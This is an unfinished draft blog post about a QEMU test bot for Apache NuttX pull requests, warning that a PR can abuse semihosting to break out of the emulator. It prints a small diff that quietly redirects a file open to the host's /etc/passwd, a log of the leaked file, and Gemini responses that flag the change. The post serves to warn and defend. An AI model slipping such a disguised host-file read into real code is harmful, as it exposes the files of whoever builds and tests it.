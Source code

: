 # QEMU Test Bot for Pull Requests: Beware of Semihosting Breakout (Apache NuttX RTOS)

📝 _16 Mar 2025_

![TODO](https://lupyuen.org/images/testbot2-title.jpg)

TODO

# QEMU Arm64

https://github.com/lupyuen/nuttx-build-farm/blob/main/build-test-arm64.sh

https://github.com/lupyuen/nuttx-build-farm/blob/main/arm64.exp

```text
## Boot NuttX on Arm64 QEMU:
## Single Core with virtio network, block, rng, serial driver (GICv3)
## https://nuttx.apache.org/docs/latest/platforms/arm64/qemu/boards/qemu-armv8a/index.html
spawn qemu-system-aarch64 \
  -cpu cortex-a53 \
  -nographic \
  -machine virt,virtualization=on,gic-version=3 \
  -chardev stdio,id=con,mux=on \
  -serial chardev:con \
  -global virtio-mmio.force-legacy=false \
  -device virtio-serial-device,bus=virtio-mmio-bus.0 \
  -chardev socket,telnet=on,host=127.0.0.1,port=3450,server=on,wait=off,id=foo \
  -device virtconsole,chardev=foo \
  -device virtio-rng-device,bus=virtio-mmio-bus.1 \
  -netdev user,id=u1,hostfwd=tcp:127.0.0.1:10023-10.0.2.15:23,hostfwd=tcp:127.0.0.1:15001-10.0.2.15:5001 \
  -device virtio-net-device,netdev=u1,bus=virtio-mmio-bus.2 \
  -drive file=./mydisk-1gb.img,if=none,format=raw,id=hd \
  -device virtio-blk-device,bus=virtio-mmio-bus.3,drive=hd \
  -mon chardev=con,mode=readline \
  -kernel ./nuttx
```

# QEMU Arm64 Test

https://github.com/lupyuen2/wip-nuttx/pull/88#issuecomment-2664190707

```bash
@nuttxpr test qemu-armv8a:netnsh
```

[See the Test Log](https://github.com/lupyuen2/wip-nuttx/pull/88#issuecomment-2664196921)

# Semihosting Breakout

https://github.com/lupyuen2/wip-nuttx/blob/sbo/arch/risc-v/src/common/riscv_hostfs.c#L117-L141

```c
int host_open(const char *pathname, int flags, int mode)
{
  _info("pathname=%s\n", pathname);
  const char *pathname2 =
    (strcmp(pathname, "../apps/bin/hello") == 0)
    ? "/etc/passwd"
    : pathname;
  struct
  {
    const char *pathname;
    long mode;
    size_t len;
  } open =
  {
    .pathname = pathname2,
    .mode = host_flags_to_mode(flags),
    .len = strlen(pathname2),
  };

#ifdef CONFIG_RISCV_SEMIHOSTING_HOSTFS_CACHE_COHERENCE
  up_clean_dcache(pathname, pathname + open.len + 1);
#endif

  return host_call(HOST_OPEN, &open, sizeof(open));
}
```

https://gist.github.com/lupyuen/a1c06b6cbf08feedee4d711b21561705

```bash
NuttShell (NSH) NuttX-12.4.0
nsh> cat /system/bin/hello
[    6.841514] host_open: pathname=../apps/bin/cat
[    6.842859] host_open: pathname=../apps/bin/hello
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
daemon:*:1:1:System Services:/var/root:/usr/bin/false
nsh> 
```

# LLM Says Nope!

https://github.com/lupyuen2/wip-nuttx/pull/89

https://patch-diff.githubusercontent.com/raw/lupyuen2/wip-nuttx/pull/89.diff

https://gist.github.com/lupyuen/d5a6ac395744c1f33e10690105e20900

```text
Here is a Pull Request for Apache NuttX RTOS that I will check out to my computer and test on QEMU RISC-V 64-bit Kernel Mode. Is it safe to build and test this Pull Request on my computer?

diff --git a/arch/risc-v/src/common/riscv_hostfs.c b/arch/risc-v/src/common/riscv_hostfs.c
index aa1409d6a05b0..db54f11ae7623 100644
--- a/arch/risc-v/src/common/riscv_hostfs.c
+++ b/arch/risc-v/src/common/riscv_hostfs.c
@@ -33,6 +33,7 @@
 #include <string.h>
 #include <syscall.h>
 #include <unistd.h>
+#include <debug.h>
 
 /****************************************************************************
  * Pre-processor Definitions
@@ -115,6 +116,11 @@ static int host_flags_to_mode(int flags)
 
 int host_open(const char *pathname, int flags, int mode)
 {
+  _info("pathname=%s\n", pathname);
+  const char *pathname2 =
+    (strcmp(pathname, "../apps/bin/hello") == 0)
+    ? "/etc/passwd"
+    : pathname;
   struct
   {
     const char *pathname;
@@ -122,9 +128,9 @@ int host_open(const char *pathname, int flags, int mode)
     size_t len;
   } open =
   {
-    .pathname = pathname,
+    .pathname = pathname2,
     .mode = host_flags_to_mode(flags),
-    .len = strlen(pathname),
+    .len = strlen(pathname2),
   };
 
 #ifdef CONFIG_RISCV_SEMIHOSTING_HOSTFS_CACHE_COHERENCE
```

Gemini Pro:

https://gist.github.com/lupyuen/b9fc83a5f496d375b030c93c65271553

This pull request is **absolutely not safe** to build and test as-is, and it contains a very obvious and serious security vulnerability ...

1.  **Pathname Redirection:**  The code checks if the requested `pathname` is `"../apps/bin/hello"`.  If it is, it *replaces* the requested path with `"/etc/passwd"`.  This is a deliberate, hardcoded attempt to read the host system's password file.  `/etc/passwd` on a typical Linux/Unix system contains user account information. While it doesn't contain hashed passwords anymore (those are usually in `/etc/shadow`), it's still sensitive information that should not be exposed.

2.  **Semihosting Abuse:** This code is within the `host_open` function, which is part of NuttX's semihosting implementation (`CONFIG_RISCV_SEMIHOSTING_HOSTFS`).  Semihosting is a mechanism that allows embedded systems (like those running on NuttX in QEMU) to use the I/O facilities of the host machine (your computer) during debugging.  This code exploits semihosting to access arbitrary files on your *host* operating system.  Essentially, the embedded code is making a system call *on your computer*, not within the isolated QEMU environment.

3.  **No Sanitization:**  Even if the `pathname` is *not* `"../apps/bin/hello"`, there's no sanitization or validation of the requested file path.  An attacker could potentially provide a crafted `pathname` to access *any* file on your host system that the user running QEMU has permission to read (or write, depending on the flags). This could include configuration files, personal documents, or anything else accessible.  It's a classic directory traversal vulnerability.

Gemini Flash:

https://gist.github.com/lupyuen/d5a6ac395744c1f33e10690105e20900

> No, it is not safe to build and test this Pull Request (PR) as it is, because it introduces a significant security vulnerability.

# TODO

What about PinePhone

What about ESP32

Kind folks at Espressif could help to modify the scripts to test 

# What's Next

Next week we'll take a break from Continuous Integration. We'll chat about the (literally) Hot New RISC-V SBC: StarPro64. Stay tuned!

Special Thanks to __Mr Gregory Nutt__ for your guidance and kindness. I'm also grateful to [__My Sponsors__](https://lupyuen.org/articles/sponsor), for supporting my writing. 

- [__Sponsor me a coffee__](https://lupyuen.org/articles/sponsor)

- [__Discuss this article on Hacker News__](TODO)

- [__My Current Project: "Apache NuttX RTOS for Sophgo SG2000"__](https://nuttx-forge.org/lupyuen/nuttx-sg2000)

- [__My Other Project: "NuttX for Ox64 BL808"__](https://nuttx-forge.org/lupyuen/nuttx-ox64)

- [__Older Project: "NuttX for Star64 JH7110"__](https://nuttx-forge.org/lupyuen/nuttx-star64)

- [__Olderer Project: "NuttX for PinePhone"__](https://nuttx-forge.org/lupyuen/pinephone-nuttx)

- [__Check out my articles__](https://lupyuen.org)

- [__RSS Feed__](https://lupyuen.org/rss.xml)

_Got a question, comment or suggestion? Create an Issue or submit a Pull Request here..._

[__lupyuen.org/src/testbot2.md__](https://codeberg.org/lupyuen/lupyuen.org/src/branch/master/src/testbot2.md)
